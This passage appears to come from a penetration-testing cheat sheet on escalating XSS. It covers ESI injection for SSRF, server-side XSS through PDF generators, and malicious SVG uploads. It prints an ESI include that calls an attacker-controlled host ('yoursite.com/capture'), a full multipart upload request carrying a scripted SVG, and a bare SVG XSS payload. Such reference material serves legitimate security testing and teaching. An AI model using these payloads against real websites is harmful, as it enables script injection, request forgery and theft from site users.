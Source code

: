## XSS Abusing other vulnerabilities

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!  
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.  
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

{% page-ref page="server-side-xss-dynamic-pdf.md" %}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{% page-ref page="pdf-injection.md" %}

### XSS uploading files \(svg\)

Upload as an image a file like the following one \(from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)\):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```

```javascript
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
```
